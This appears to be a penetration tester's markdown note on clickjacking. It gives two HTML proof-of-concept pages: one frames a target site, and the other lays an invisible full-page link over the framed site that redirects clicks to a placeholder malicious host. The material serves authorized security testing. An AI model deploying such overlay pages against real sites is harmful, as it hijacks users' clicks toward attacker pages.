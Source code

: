 # Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````